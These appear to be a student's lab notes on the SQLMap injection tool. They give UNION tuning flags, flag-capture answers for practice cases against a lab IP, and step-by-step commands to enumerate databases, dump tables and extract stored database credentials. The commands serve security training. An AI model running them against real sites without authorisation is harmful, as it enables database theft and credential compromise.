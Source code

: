 ```

UNION SQLi Tuning
	- UNION SQLi payloads sometimes require extra user-provided info, such as the number of columns.
	- We can specify ```--union-cols=<num of cols>```
	- Sometimes SQLMaps -NULL and random integer- are not compatible with values from results of the vulnerable SQL query (when building out number of columns etc in database)
	- We can specify an alternative value instead using ```--union-char='<val here>'```
	- If we need to use an appendix at the end of a UNION query i.e ```FROM <table>``` (e.g., in case of Oracle), this can be set with ```--union-from=<val here>``` 

### Questions

What's the contents of table flag5? (Case #5)
command
```sqlmap -u http://167.172.52.221:32606/case5.php?id=1 -T 'flag5' --dump --risk=3 --batch```

What's the contents of table flag6? (Case #6)
command
```sqlmap -u http://167.172.52.221:32606/case6.php?col=id --dump --batch --prefix='`)' ```

What's the contents of table flag6? (Case #7)
```sqlmap -u http://167.172.52.221:32606/case7.php?id=1 --batch --union-cols=5 --dbms='mysql' --dump```

## Database enumeration

SQLMap has a variety of predefined set of quires to enumerate a database.

Basic Methodology

1) Get the Database type, current user, is the current user the database admin and database name using the ```--banner```, ```--current-user``` , ```--current-db``` and ```--is-dba``` 
```sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba```

2) Enumerate tables. Use ```--tables``` to enuerate tables  and ```-D <database name>``` 
```sqlmap -u "http://www.example.com/?id=1" --tables -D testdb```

3) Dump a table using the ```-T <table name>``` and ```--dump```
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb```

4) Further Column enumeration with  ```-C <column names here>``` or ```--start=<column number>``` and ```--stop=<column number>``` (not 0 indexed) or based on conditional statements with ```--where=<condition```

```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname```
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3```
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"```


CHEAT way. Use ```--dump -D <database name>``` or ```--dump-all``` with the ```--exclude-sysdbs``` to only get useful databases.

### More advanced

Use ```--schema``` to get a complete overview of database architecture

search for data using ```--search``` For example if we wanted to look for tables with keyword user or columns with pass

```sqlmap -u "http://www.example.com/?id=1" --search -T user```
```sqlmap -u "http://www.example.com/?id=1" --search -C pass```

We can dump the content of the system table containing database-specific crexdentials using ```--passwords```

```